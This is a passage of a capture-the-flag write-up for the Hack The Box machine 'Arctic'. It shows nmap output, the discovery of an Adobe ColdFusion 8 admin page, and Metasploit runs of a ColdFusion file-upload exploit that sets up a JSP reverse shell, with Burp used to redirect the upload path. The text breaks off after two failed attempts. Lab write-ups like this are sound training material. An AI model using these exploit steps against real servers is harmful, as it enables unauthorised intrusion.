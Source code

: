 ### Arctic HTB

### Difficulty: Easy

### IP Address = 10.10.10.11

Nmap Scan:

```
──(mark㉿haxor)-[~/Desktop/B2B/HTB/Arctic]
└─$ nmap -sCV -A 10.10.10.11 -p135,8500 -oN nmapscan -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-20 05:07 WAT
Nmap scan report for 10.10.10.11
Host is up (0.31s latency).

PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8500/tcp open  fmtp?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 165.17 seconds

```

On heading to the service on port 8500 we see its a web server and that its indexed 

Meaning we can list and navigate through files (directory listing)
![image](https://user-images.githubusercontent.com/113513376/213615555-41e799c1-6159-4afe-b1a9-04ad2a7383ef.png)


After poking around i got this url `http://10.10.10.11:8500/CFIDE/administrator/` 

Which when navigated to shows a login page
![image](https://user-images.githubusercontent.com/113513376/213615935-f3fa8b85-7df9-4595-9481-9d52274f5c76.png)

And from the image we see its version also in the logo `Adobe ColdFusion 8`

Now lets fire metasploit and search for possible exploits

```                                                                                                    
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Arctic]
└─$ msfconsole
                                                  
                          ########                  #
                      #################            #
                   ######################         #
                  #########################      #
                ############################
               ##############################
               ###############################
              ###############################
              ##############################
                              #    ########   #
                 ##        ###        ####   ##
                                      ###   ###
                                    ####   ###
               ####          ##########   ####
               #######################   ####
                 ####################   ####
                  ##################  ####
                    ############      ##
                       ########        ###
                      #########        #####
                    ############      ######
                   ########      #########
                     #####       ########
                       ###       #########
                      ######    ############
                     #######################
                     #   #   ###  #   #   ##
                     ########################
                      ##     ##   ##     ##
                            https://metasploit.com


       =[ metasploit v6.2.9-dev                           ]
+ -- --=[ 2229 exploits - 1177 auxiliary - 398 post       ]
+ -- --=[ 867 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: To save all commands executed since start up 
to a file, use the makerc command

[*] Starting persistent handler(s)...
msf6 > 
```

Then search `coldfusion 8 `

```
msf6 > search coldfusion 8

Matching Modules
================

   #  Name                                                Disclosure Date  Rank       Check  Description
   -  ----                                                ---------------  ----       -----  -----------
   0  exploit/multi/http/coldfusion_ckeditor_file_upload  2018-09-11       excellent  No     Adobe ColdFusion CKEditor unrestricted file upload
   1  auxiliary/scanner/http/adobe_xml_inject                              normal     No     Adobe XML External Entity Injection
   2  exploit/windows/http/coldfusion_fckeditor           2009-07-03       excellent  No     ColdFusion 8.0.1 Arbitrary File Upload and Execute
   3  auxiliary/scanner/http/coldfusion_locale_traversal                   normal     No     ColdFusion Server Check
   4  auxiliary/gather/jetty_web_inf_disclosure           2021-07-15       normal     Yes    Jetty WEB-INF File Disclosure


Interact with a module by name or index. For example info 4, use 4 or use auxiliary/gather/jetty_web_inf_disclosure
```

Checking out the exploit

```
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > use 0
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > set rhosts 10.10.10.11
rhosts => 10.10.10.11
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > set lhost tun0
lhost => tun0
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > run

[*] Started reverse TCP handler on 10.10.16.7:4444 
[*] Uploading the JSP payload at /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/IYTSIKNIN.jsp...
[-] Exploit aborted due to failure: unknown: Upload Failed...
[*] Exploit completed, but no session was created.
```

Ok it failed but why?

Its cause the path its trying to upload our payload doesn't exist

But since we have directory listing we can find the right path

After playing around for some minutes i found this path `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/cf_upload.cfm` 

So instead of the exploit to attempt to upload the file in `/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/` 

I can rather make it upload in the path i want

To do this i need to intercept the request in burp

So in the exploit i'll add this 

```
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > set proxies http:127.0.0.1:8080
proxies => http:127.0.0.1:8080
```

Now i'll try to re-run the exploit and intercept it in burp 
![image](https://user-images.githubusercontent.com/113513376/213618734-020e0c36-a378-4852-b1db-18c61553705e.png)

So I will just change the path to the right one which is `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/cf_upload.cfm` 
![image](https://user-images.githubusercontent.com/113513376/213618807-a9c6d0f8-c06a-4961-8a97-e3588e09f0b8.png)

But still it fails 

```
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > run

[*] Started reverse TCP handler on 10.10.16.7:4444 
[*] Uploading the JSP payload at /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/QFSQVIZRMX.jsp...
[-] Exploit aborted due to failure: unknown: Upload Failed...
[*] Exploit completed, but no session was created.
```

Now i checked the request it made in burp suite proxy history

And found the error 


